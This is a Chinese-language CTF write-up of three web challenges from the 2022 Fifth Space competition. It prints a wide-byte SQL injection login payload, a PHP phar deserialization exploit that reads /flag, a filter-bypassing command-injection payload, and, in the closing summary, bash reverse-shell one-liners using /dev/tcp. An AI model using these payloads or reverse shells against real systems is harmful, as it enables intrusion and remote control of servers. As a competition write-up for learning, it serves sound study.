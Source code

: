 ```yaml
---
layout: post
title: "2022第五空间-web部分wp+复盘总结"
date: "2022-09-20T06:06:05.443Z"
---
```

2022第五空间-web部分wp+复盘总结
=====================

打了一天，麻了，大佬tql，这次get到了不少东西，一是一个不太常见的宽字节注入，我是真的没想到，而且后面也是看了wp理解了好一会才弄明白。

0x01:
=====

题目是一个登录框，但是基本上是过滤掉了所有的常见注入的关键词。实在是没思路，后面看了大佬wp，才发现是宽字节注入，同时还要利用虚拟表，同时还有mysql的hex编码。  
payload：

> admin%df%27%09ununionion%09selselectect%091,2,0x6531306164633339343962613539616262653536653035376632306638383365#&password=123456

其中 0x6531306164633339343962613539616262653536653035376632306638383365 为 password=123456d的hex(md5(password)) 利用双写+宽字节构造payload。  
123456加密后的md5：`e10adc3949ba59abbe56e057f20f883e`  
因为宽字节的问题所以利用mysql 的hex编码一下：  
![1663650389820.png](https://snail7.top/i/2022/09/20/63294a569bc17.png)

0x02:
=====

一个phar读取flag的操作，遇到这题的时候，phar差不多已经忘光了，首先扫目录得到`www.zip` 拿到源码进行简单的审计：  
开始以为是文件上传，后面一看发现是构造phar直接读。  
得到`class.php`

    <?php
    class upload{
        public $filename;
        public $ext;
        public $size;
        public $Valid_ext;
    
        public function __construct(){
            $this->filename = $_FILES["file"]["name"];
            $this->ext = end(explode(".", $_FILES["file"]["name"]));
            $this->size = $_FILES["file"]["size"] / 1024;
            $this->Valid_ext = array("gif", "jpeg", "jpg", "png");
        }
    
        public function start(){
            return $this->check();
        }
    
        private function check(){
            if(file_exists($this->filename)){
                return "Image already exsists";
            }elseif(!in_array($this->ext, $this->Valid_ext)){
                return "Only Image Can Be Uploaded";
            }else{
                return $this->move();
            }
        }
    
        private function move(){
            move_uploaded_file($_FILES["file"]["tmp_name"], "upload/".$this->filename);
            return "Upload succsess!";
        }
    
        public function __wakeup(){
            echo file_get_contents($this->filename);
        }
    }
    
    
    class check_img{
        public $img_name;
        public function __construct(){
            $this->img_name = $_GET['img_name'];
        }
    
        public function img_check(){
            if(file_exists($this->img_name)){
                return "Image exsists";
            }else{
                return "Image not exsists";
            }
        }
    }
    

构造payload：

    <?php
    class upload{
        public $filename = "/flag";
    }
    #new Phar()这里定义了生成的phar文件的名字(这里定义的时候后缀是一定要.phar)
    #实际上生成后后缀名也可以改(比如awsl.awsl也行),标志该文件是phar文件的是下面的__HALT那里
    $phar =new Phar("awsl.phar"); 
    $phar->startBuffering();
    #这里XXX的内容随便写,注意后面的XXX如果不用;来和__HALT分割记得留个空格隔开(个人觉得后面XXX还是写个PHP语句好,省点麻烦)
    #__HXXXX(注释里直接用全称会被识别)这一节在这个setStub这里必须保证这个为结尾而且不可省,标志这个为phar文件
    $phar->setStub("XXX<?php XXX __HALT_COMPILER(); ?>"); 
    #把要序列化的变量申明好(这里只知道能放序列化的一个变量,不知道怎么放多个(或许单个文件只能放一个序列化的变量))
    $a = new upload();
    #将目标变量存入(这里自动把它序列化了)
    $phar->setMetadata($a); 
    #这里会按照文件名,文件内容的形式打包到phar文件中,当使用phar://awsl.phar://test.txt就会类似用include包含后面定义的代码(这里文件名不影响是否解析 
    $phar->addFromString("test.txt", "test");
    $phar->stopBuffering();
    
    ?>
    

phar反序列化知识点可以看一下这篇文章：[利用phar扩展PHP反序列化漏洞](https://paper.seebug.org/680/)

放到本地运行一下，这里记得需要在你PHP版本目录下的`php.ini`文件里面把  
`phar.readonly = off` 这一行的注释给去掉，并且改成`off`  
![1663650977725.png](https://snail7.top/i/2022/09/20/63294ca42bf25.png)  
在本地运行php后，目录下会生成一个`.phar`的文件 因为phar是可以随便修改为`jpg` `png` `gif`的，所以这里直接随便改个后缀，然后上传 再读取的时候 get传参 `phar://upload/文件名.jpg` 即可得到flag

0x03:
=====

一个有趣的`RCE`题  
打开发现有个ping 操作。 结合经验猜测是`rce`，  
![1663651350491.png](https://snail7.top/i/2022/09/20/63294e1773f1d.png)  
爆破一下账号密码，得到账号：`admin` 密码：`admin123`  
![1663651524894.png](https://snail7.top/i/2022/09/20/63294ec74550d.png)  
登录后发现一样的，也是ban掉了很多关键词，利用字典`fuzz` 一波 这里给大家推荐一个字典：[Web Pentesting Fuzz 字典,一个就够了。](https://github.com/TheKingOfDuck/fuzzDicts)  
这里看到 %0a可以绕过。  
![1663651642650.png](https://snail7.top/i/2022/09/20/63294f3b57830.png)  
这里利用`tac%09index.php` 查看源码  
![1663651761130.png](https://snail7.top/i/2022/09/20/63294fb2040f9.png)  
发现这里过滤了好多命令，看到可疑的目录`kylin` 但是他把`kylin`给ban了，构造通配符直接进行`flag`的读取。  
payload:

> ?ip=%0Acd%09ky?in%0aca\\t%09\*  
> 成功得到flag：  
> ![1663651911756.png](https://snail7.top/i/2022/09/20/63295049a3dfd.png)  
> 构造其他payload可以大家可以参考一下这篇：[RCE漏洞之绕过](https://blog.csdn.net/loseheart157/article/details/109305380)

总结：
===

这次还是学到不少东西，最后成绩28，web队里师傅们ak了 但是最后那个`sql注入`我是现在还没看懂，所以就没总结了。收获蛮大的。扩展了不少的思路，`get`到了大佬平时的思路，`rce`的那题，读文件的时候，队里师傅写了个一句话木马上去，ban了那么多关键词，我是怎么也想不到怎么写上去的。按我平时的思路就是，利用常见的命令 例如`echo`命令写马，但ban掉了不少东西， 同时，`/`也被ban了，进目录是没法搞的。但是大佬的思路是啥，日志写马，日志写马倒也是想到过，可是我`/`给我ban掉了，当时就没想到怎么给进目录，那么自然也就没法写马了，完了请教大佬的时候，大佬给我的是这样的：  
![1663652370067.png](https://snail7.top/i/2022/09/20/63295213a691e.png)  
思路是这样的，但是这个绕过属实是骚操作了。  
![1663652403014.png](https://snail7.top/i/2022/09/20/6329523468105.png)  
另外还get到一个思路，就是平常的`rce` 如果是没有过滤掉管道符这种，可以直接利用反弹`shell`，直接读`flag`  
具体操作  
![1663652577034.png](https://snail7.top/i/2022/09/20/632952e25dbde.png)  
这是linux的一些反弹`shell`的命令，windows的大家可以自行百度。  
常用的比如：

> /bin/bash -i > /dev/tcp/127.0.0.1/8080 0<& 2>&1  
> bash -i >& /dev/tcp/127.0.0.1/8080 0>&1  
> 等等，骚操作还有不少，还有一些空格的绕过之类的操作。可以百度一下，有不少文章可以借鉴参考。  
> 思路真的很重要，有时候你只能卡在一个地方走不了， 而大佬可以各种骚操作绕过等。